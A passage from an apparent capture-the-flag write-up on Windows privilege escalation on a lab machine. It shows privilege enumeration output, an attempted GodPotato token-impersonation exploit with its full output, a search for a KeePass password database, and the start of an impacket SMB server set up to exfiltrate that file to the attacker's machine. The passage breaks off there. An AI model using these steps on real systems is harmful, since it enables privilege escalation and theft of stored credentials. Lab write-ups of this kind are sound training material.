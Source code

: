 C:\Users\Administrator\.jenkins>
```


## Privilege Escalation
I always go for low-hanging fruit first when escalating privileges. Looking at my user privilege, I saw that we have the SEImpersonatePrivilege. We can potentially impersonate a high-privileged user.

```
C:\Temp>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Unfortunately, this turns out to be a false lead. We'll have to look for other privesc vectors.

```
C:\Temp>.\GodPotato-NET4.exe -cmd "cmd /c whoami"
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140717164658688
[*] DispatchTable: 0x140717166622152
[*] UseProtseqFunction: 0x140717166124880
[*] UseProtseqFunctionParamCount: 5
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\5511e14b-e9ab-43f3-b5d0-bbfe8b6571cb\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00003c02-0f34-ffff-9033-ef4aa84d1797
[*] DCOM obj OXID: 0xb7f5e435d7866f08
[*] DCOM obj OID: 0x59d6cba54f6519d9
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] UnmarshalObject: 0x80070776
[!] Failed to impersonate security context token
```

Eventually, I come across a KeePass database file.

```
C:\>dir /s /b *.kdbx
dir /s /b *.kdbx
C:\Users\kohsuke\Documents\CEH.kdbx
```

KeePass files are password-protected and I don't have the utilities to crack the password on Jeeves, so I set up a SMB share to exfiltrate the file to my attacker machine.

```
┌──(kali㉿kali)-[/tmp]
└─$ impacket-smbserver transfer /tmp/transfer -smb2support
Impacket v0.12.0.dev1 - Copyright 2023 Fortra